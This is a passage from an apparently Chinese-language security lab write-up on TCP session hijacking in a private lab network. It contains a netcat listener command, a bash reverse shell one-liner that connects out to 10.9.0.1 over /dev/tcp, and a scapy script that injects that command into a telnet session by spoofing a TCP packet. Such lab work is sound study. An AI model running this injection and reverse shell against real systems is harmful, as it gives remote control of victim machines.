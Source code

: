 ```terminal
nc -lv 9090
```

![image-20220511210446123](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012332547.png)

要使Reverse Shell运行在victim主机10.9.0.5上。可以利用task3中的hijacking方法，首先利用主机10.9.0.6 telnet 10.9.0.5，然后构造包使得victim运行Reverse Shell。

10.9.0.6 telnet 10.9.0.5：

![image-20220511210815553](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012332654.png)

wireshark抓包：

![image-20220511210749618](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012332153.png)

构造代码，data为reverse shell：` /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1`。

```python
#!/usr/bin/env python3

from scapy.all import *
ip = IP(src="10.9.0.6", dst="10.9.0.5")
tcp = TCP(sport=43006, dport=23, flags="A", seq=2591063038, ack=4106536643)
data = " /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\r"
pkt = ip/tcp/data
ls(pkt)
send(pkt, verbose=0)
```

运行代码：

![image-20220511211411653](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012332744.png)

![image-20220511211639158](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012332433.png)

攻击成功，成功执行reverse shell，获得victim的权限：

![image-20220511211738698](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012332063.png)
